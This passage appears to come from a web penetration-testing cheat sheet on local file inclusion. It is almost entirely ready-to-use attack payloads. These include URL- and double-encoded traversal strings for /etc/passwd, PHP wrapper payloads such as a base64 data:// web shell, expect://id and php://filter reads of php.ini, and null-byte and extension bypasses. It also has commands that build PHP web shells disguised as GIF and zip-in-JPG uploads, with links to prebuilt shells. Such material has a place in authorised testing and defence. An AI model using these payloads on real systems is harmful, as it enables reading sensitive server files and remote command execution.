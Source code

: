 ### Block . and / - Bypass

-> urlencode and Double urlencode /etc/passwd  
```
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```
```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34
```  
### PHP Wrappers

```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id  
expect://id  
php://filter/read=convert.base64-encode/resource=index.php  
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```

### Filter PHP
-> Predefined Paths  
preg_match('/^\.\/okay\/.+$/', $_GET['file'])  

```
./okay/../../../../etc/passwd
```  

### PHP Extension Bypass with Null Bytes
```
https://site.com/index.php?file=/etc/passwd%00.php
```  
-> Removing .php  
```
https://site.com/index.php?file=index.p.phphp
```  
  
#### LFI + File Upload
-> gif  
```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > ok.gif
``` 
https://github.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/blob/main/codes/webshells/shell.gif  
-> Zip  
1-  
```
echo '<?php system($_GET["cmd"]); ?>' > ok.php && zip wshell_zip.jpg ok.php
```
2-  
```
http://ip/index.php?file=zip://./uploads/wshell_zip.jpg%23ok.php&cmd=id  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/wshell_zip.jpg 
```
